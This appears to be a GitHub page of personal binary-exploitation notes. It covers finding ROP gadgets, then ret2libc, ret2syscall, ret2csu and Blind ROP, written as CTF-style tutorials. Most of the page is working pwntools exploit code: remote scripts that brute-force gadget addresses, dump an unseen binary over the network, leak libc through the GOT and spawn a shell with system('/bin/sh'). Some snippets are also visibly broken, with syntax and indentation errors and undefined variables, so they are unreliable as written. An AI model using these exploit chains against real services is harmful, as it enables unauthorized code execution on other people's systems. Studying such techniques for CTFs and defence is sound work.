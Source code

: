
### in progress


# ROP
# how to find Gadgets (Ropper)
read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

# how to find Strings in an ELF	
searching manually
`strings -t x -a /path/to/binary | grep "string you searching"`

in a pwntools script
```
binary = ELF('/path/to/binary')
string = next(libc.search(b'string you searching'))
```

# how to pivote the Stack
in progress
# ret2techniques
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>

# Blind Return Oriented Programming






<details>
    <summary>BROP (dont have the binary // PIE off // puts() in binary)</summary>
        <div>

Steps of Exploitation:

Puts/Printf() when fd is 0,1,2 stdin,stdout,stderror
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find puts@plt
4. leak the binary


### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```
### find puts-gadget



```
def find_puts(i):                        #puts@plt


    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 



            #this is the plt layout we want to find
            # 0x0000000000400560  puts@plt
            # 0x0000000000400570  setbuf@plt
            # 0x0000000000400580  read@plt
            # 0x0000000000400590  __libc_start_main@plt
            # 0x00000000004005a0  strcmp@plt


    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #first argument for # int puts( char const * string ); puts(rdi) 
    payload += p64(0x400000)                    #points to 0x400000 which should print out 'ELF'
    payload += p64(addr_guess)                  #the addr guess for puts@plt

    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential puts@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    puts = find_puts(i)
    if puts:
        print(f'found puts @ {hex(puts)}')
        break                                   #remove this break if you want to find more potential puts@plt addr.
```

### leak the process with puts()
```
def leak_binary_puts(i,j):


    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(x)
    payload += p64(puts)

    r.recvline()                                         #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            #trys to recv the leak if nothin is recv inc offset by 1 and continue
        if check:
            if check.hex()[:-2] == '':                  
                file.append(b'\x00')
                r.close()
                return int(offset) + 1

            else:
                file.append(check[:-1])                 #append leak without \n
                last_len = int(len(check)-1)            #calculate len of leaked bytes
                r.close()
                return int(offset) + int(last_len)      #increase the offset by leaked num of bytes     
            
        else:
            r.close()
    except:                                             #inc offset by 1 and continue
        print(sys.exc_info()[0])
        r.close()
        return int(offset + 1)

file = []
last_len = 0
offset = 0

for i in range(0xb00):                      
    offset = leak_binary_puts(offset,0x400000)
    print(offset)
    print(f'{hex(i)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```
find the libc verion with https://libc.blukat.me/

```           

def leak(i):        #simple leak function to find all GOT entrys this will print the addr and content of 0x601000 -> 0x601080 in steps of 0x8


    r = remote(ip, port,timeout=1)
    

    payload = b'A'*88                                                   
    payload += p64(pop_rdi)
    payload += p64(i)
    payload += p64(puts)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)

    leak = unpack(r.recvline()[:-1],'all')
    return leak


libc = ELF(/path/to/libc)                               #we want to guess a libc and if we guess right it should have the same last 3 nibbles 

puts_check = hex(libc.symbols['puts'])[-2::]

for i in range(0x10):                                   #loop 0x601000 -> 0x601080
    check = leak(0x601000+i*8)                          #GOT usually starts somewhere here 0x601000
    print(f'{hex(0x601000+i*8)} : {hex(check)}')
    if hex(check)[12:] == puts_check:
        putsgot = (i*8+0x601000)
        print(f'puts_got @ {hex(putsgot)}')
        break


```

and bringing it all together we can pop a shell

```
def pwn():

    #context.log_level = 'debug'

    r = remote(ip, port,timeout=1) 

    pop_rdi = int(brop) + 0x9
    ret = int(brop) + 10

    payload = b'A'*88                               #leak libc_base
    payload += p64(pop_rdi)
    payload += p64(putsgot)
    payload += p64(puts)
    payload += p64(loop)                            #loop back to main
 

    r.recvuntill('Are you blind my friend?\n')      #read the 1st (intendet) "Are you blind my friend?\n"
    r.send(payload)


    leak = unpack(r.recvline()[:-1],'all')          #leak puts
    print(hex(leak))
    libc.address = leak - libc.symbols['puts']      #sets libc base

    print(hex(libc.address))

    r.recvuntil('Are you blind my friend?\n')       #read the (loop) "Are you blind my friend?\n"

    binsh = next(libc.search(b'/bin/sh\x00'))       #ret2libc
    system = libc.symbols['system']

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)

    r.send(payload)

    inter()
```



</div>
</details>


<details>
    <summary>BROP (dont have the binary // PIE off // puts() not in binary)</summary>
        <div>

1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find strcmp@PLT (strcmp sets rdx)
4. find write@PLT (let us write to any fd)
5. leak the binary

### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```

```
def find_strcmp(i):
    
    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10 same as finding puts
    addr_guess = i*0x10 + 0x400200                    #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #pop 1st argument for # int strcmp (const char* str1, const char* str2); strcmp(rdi,rsi)
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(pop_rsi_r15)                 #pop 2nd argument   
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(0x00)                        #junk to fill r15
    payload += p64(addr_guess)                  #the addr guess for strcmp@plt
    payload += p64(loop)                        #loop back to main if check for GOOD:GOOD pointers work 
    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    

    try:
        check = r.recvline()                                            #trys to recv if cant recv anything EOF error
        if b'Are you blind my friend?\n' in check:                      #if we can find 'Are you blind my friend?\n' we passed check1 
            r.close()
            print('\n1st check passed good:good')
            
            print(f'2nd check for {hex(addr_guess)} good:bad')
            p = remote(ip,port,timeout=1)

            payload = b'A'*88                                           #same as above but with GOOD:BAD pointers that should crash
            payload += p64(pop_rdi) 
            payload += p64(0x400000)                                    #holds valide pointer to 'ELF'          GOOD
            payload += p64(pop_rsi_r15)
            payload += p64(0x0)                                         #holds invalide pointer to 0x00         BAD
            payload += p64(0x0)
            payload += p64(addr_guess)
            payload += p64(loop)        
            p.readuntil('Are you blind my friend?\n')
            p.send(payload)
                
            try:
                check2 = p.recvline()

                if check2: 
                    print('not passed check2')
                    p.close()
                else:
                    print('not passed check2')
                    p.close()

            except:
                r.close()
                p.close()
                print(f'3nd check for {hex(addr_guess)} bad:good')
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                                       #same as above but with BAD:GOOD pointers that should crash    
                payload += p64(pop_rdi)
                payload += p64(0x0)                                     #holds invalide pointer to 0x00         BAD
                payload += p64(pop_rsi_r15)
                payload += p64(0x400000)                                #holds valide pointer to 'ELF'          GOOD
                payload += p64(0x0)
                payload += p64(addr_guess)
                payload += p64(loop)         
                p.readuntil('Are you blind my friend?\n')
                p.send(payload)

                try:
                    check3 = p.recvline()

                    if check3: 
                        print('not passed check3')
                        p.close()
                    else:
                        print('not passed check3')
                        p.close()

                except:
                    p.close()
                    print(f'4rd check for {hex(addr_guess)} bad:bad')
                    p = remote(ip,port,timeout=1)

                    payload = b'A'*88                                   #same as above but with BAD:BAD pointers that should crash
                    payload += p64(pop_rdi) 
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(pop_rsi_r15)
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(0x0)             
                    payload += p64(addr_guess)
                    payload += p64(loop)         
                    p.readuntil('Are you blind my friend?\n')
                    p.send(payload)
                    try:
                        check4 = p.recvline()

                        if check4: 
                            print('not passed check4')
                            p.close()

                        else:
                            print('not passed check4')
                            p.close()


                    except:
                        p.close()
                        print(sys.exc_info()[0])
                        return addr_guess                               #if all checks were good we return the guess_addr

        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        print(hex(addr_guess))
        r.close()


for i in range(0x50):                                                   # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
        strcmp = find_strcmp(i)
        if strcmp:
            print(f'found strcmp @ {hex(strcmp)}')
            break                                                       #remove this break if you want to find more potential strcmp@plt addr.

 ```

 ```
def find_write()                                #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r = remote(ip, port,timeout=1)  


    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7


                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                    #rdi points to 0x400000 which should hold 'ELF'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400000)                    #rsi points to 0x400000 which should hold 'ELF'
    payload += p64(0x00)                        #junk r15
    payload += p64(strcmp)                      #sets rdx to != 0x00
    payload += p64(pop_rdi)
    payload += p64(0x01)                        #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(addr_guess)
                                                


    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential write@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    write = find_write(i)
    if write:
        print(f'found write @ {hex(write)}')
        break                                   #remove this break if you want to find more potential write@plt addr.
 ```

 
### leak the process with write()
		
```
def leak_binary_write(i,j):

    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7

    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88                                   #pad
    payload += p64(pop_rdi)                             #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                            #rdi points to 0x400000 which should hold '0x00010102464c457f'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400001)                            #rsi points to 0x400001 which should hold '0x0000010102464c45'
    payload += p64(0x00)                                #junk r15
    payload += p64(strcmp)                              #sets rdx to 0x7f

    payload += p64(pop_rdi)
    payload += p64(0x01)                                #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(pop_rsi_r15)
    payload += p64(x)                                   #addr to leak
    payload += p64(0x00)                                #junk r15   
    payload += p64(addr_guess)                          #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            
        if check:
            file.append(check[:-1])
            r.close() 
            
        else:
            r.close()
    except:                                             
        print(sys.exc_info()[0])
        r.close()


file = []
